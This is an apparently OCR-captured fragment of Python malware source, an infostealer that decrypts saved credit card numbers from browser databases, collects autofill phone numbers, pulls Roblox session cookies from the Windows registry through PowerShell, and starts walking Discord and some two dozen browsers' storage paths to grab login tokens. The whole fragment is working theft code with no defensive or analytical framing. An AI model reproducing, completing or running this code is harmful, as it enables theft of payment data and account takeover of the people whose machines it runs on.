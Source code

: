                     self.stats['addresses'] += 1
            cursor.execute("SELECT number FROM autofill_profile_phones")
            for r in cursor.fetchall():
                Number = r[0]
                if Number != "":
                    self.misc_temp += f"\nPhone Number: {Number}\n"
                    self.stats['phones'] += 1
            cursor.execute("SELECT name_on_card, expiration_month, expiration_year, card_number_encrypted FROM credit_cards")
            for r in cursor.fetchall():
                Name = r[0]
                ExpM = r[1]
                ExpY = r[2]
                decrypted_card = self.decrypt_val(r[3], master_key)
                if decrypted_card != "":
                    self.misc_temp += f"\nCard Number: {decrypted_card}\nName on Card: {Name}\nExpiration Month: {ExpM}\nExpiration Year: {ExpY}\n"
                    self.stats['cards'] += 1
        except Exception: self.exceptions.append(traceback.format_exc())
        cursor.close()
        conn.close()
        try: os.remove(newdb)
        except Exception: self.exceptions.append(traceback.format_exc())
    def grabRobloxCookie(self):
        try: self.robloxcookies.append(self.system(r"powershell Get-ItemPropertyValue -Path 'HKLM:SOFTWARE\Roblox\RobloxStudioBrowser\roblox.com' -Name .ROBLOSECURITY"))
        except Exception: pass
        if self.robloxcookies:
            with open(self.tempfolder+"\\Roblox Cookies.txt", "w") as f:
                for i in self.robloxcookies: f.write(i+'\n')
    def grabTokens(self):
        paths = {
            'Discord': self.roaming + r'\\discord\\Local Storage\\leveldb\\',
            'Discord Canary': self.roaming + r'\\discordcanary\\Local Storage\\leveldb\\',
            'Lightcord': self.roaming + r'\\Lightcord\\Local Storage\\leveldb\\',
            'Discord PTB': self.roaming + r'\\discordptb\\Local Storage\\leveldb\\',
            'Opera': self.roaming + r'\\Opera Software\\Opera Stable',
            'Opera GX': self.roaming + r'\\Opera Software\\Opera GX Stable',
            'Amigo': self.appdata + r'\\Amigo\\User Data',
            'Torch': self.appdata + r'\\Torch\\User Data',
            'Kometa': self.appdata + r'\\Kometa\\User Data',
            'Orbitum': self.appdata + r'\\Orbitum\\User Data',
            'CentBrowser': self.appdata + r'\\CentBrowser\\User Data',
            '7Star': self.appdata + r'\\7Star\\7Star\\User Data',
            'Sputnik': self.appdata + r'\\Sputnik\\Sputnik\\User Data',
            'Chrome SxS': self.appdata + r'\\Google\\Chrome SxS\\User Data',
            'Epic Privacy Browser': self.appdata + r'\\Epic Privacy Browser\\User Data',
            'Vivaldi': self.appdata + r'\\Vivaldi\\User Data\\<PROFILE>',
            'Chrome': self.appdata + r'\\Google\\Chrome\\User Data\\<PROFILE>',
            'Chrome Beta': self.appdata + r'\\Google\\Chrome Beta\\User Data\\<PROFILE>',
            'Edge': self.appdata + r'\\Microsoft\\Edge\\User Data\\<PROFILE>',
            'Uran': self.appdata + r'\\uCozMedia\\Uran\\User Data\\<PROFILE>',
            'Yandex': self.appdata + r'\\Yandex\\YandexBrowser\\User Data\\<PROFILE>',
            'Brave': self.appdata + r'\\BraveSoftware\\Brave-Browser\\User Data\\<PROFILE>',
            'Iridium': self.appdata + r'\\Iridium\\User Data\\<PROFILE>',
            'Chromium': self.appdata + r'\\Chromium\\User Data\\<PROFILE>'
        }
        for source, path in paths.items():
            if not os.path.exists(path.replace('<PROFILE>','')): continue
            if "discord" not in path:
                profiles = ['Default']
                for dir in os.listdir(path.replace('<PROFILE>','')):
                    if dir.startswith('Profile '):
                        profiles.append(dir)